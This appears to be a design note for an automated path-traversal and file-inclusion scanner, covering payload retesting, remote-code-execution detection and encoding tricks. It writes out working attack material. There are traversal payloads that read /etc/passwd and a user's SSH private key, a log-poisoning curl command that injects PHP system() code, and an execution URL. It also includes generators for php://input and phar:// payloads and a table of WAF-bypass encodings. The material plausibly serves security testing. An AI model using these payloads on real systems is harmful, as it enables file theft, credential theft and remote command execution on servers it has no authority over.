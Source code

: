 **Automated Retesting**:

- New payloads immediately added to scan queue
    
- Preserves original successful encoding:
```
# Original working payload: ../../etc/passwd%00
# Generated user payload: ../../home/john/.ssh/id_rsa%00
```


#### **3. RCE Detection Enhancement** (Proposed Implementation)
![[deepseek_mermaid_20250502_d0e3b2.svg]]
**Advanced Log Analysis**:

```python
def detect_rce_vectors(response):
    # Check for writable log locations
    log_paths = [
        '/var/log/apache2/access.log',
        '/proc/self/environ',
        '/var/log/nginx/error.log'
    ]
    
    if any(path in response.text for path in log_paths):
        return {
            'type': 'rce_potential',
            'confidence': 'high',
            'exploit_steps': [
                'Poison log: curl -A "<?php system($_GET[\'c\']);?>" TARGET',
                'Execute: http://target/vuln.php?file=access.log&c=id'
            ]
        }
    return None
```

**!!!!!!!Hypothetical!!!!! Improvement**:

```python
# Automated RCE payload generation (Conceptual)
def generate_rce_payloads(base_url):
    return [
        f"{base_url}?file=/proc/self/environ&LANG=php://input%00",
        f"{base_url}?logfile=../../var/log/apache2/access.log",
        f"{base_url}?config=phar:///path/to/exploit.phar"
    ]
```



#### **3. Advanced Encoding Techniques**

**Multi-Layer Obfuscation**:

|Technique|Example|Bypass Target|Implementation|
|---|---|---|---|
|**Double Encoding**|`%252e%252e%252fetc/passwd`|Basic WAF filters|`quote(quote(payload))`|
|**Null Byte**|`../../../etc/passwd%00.png`|File extension checks|Appended `.replace('\x00', '%00')`|
|**Unicode**|`..%c0%af..%ef%bc%8fetc/passwd`|ASCII validation|Manual Unicode insertion|
|**Mixed Slashes**|`..%2f..%5c..%2fetc/passwd`|OS-specific checks|Alternated `/` and `\` encoding|
|**Directory Depth**|`....//....//etc/passwd`|Simple `../` detection|Even-numbered traversal|
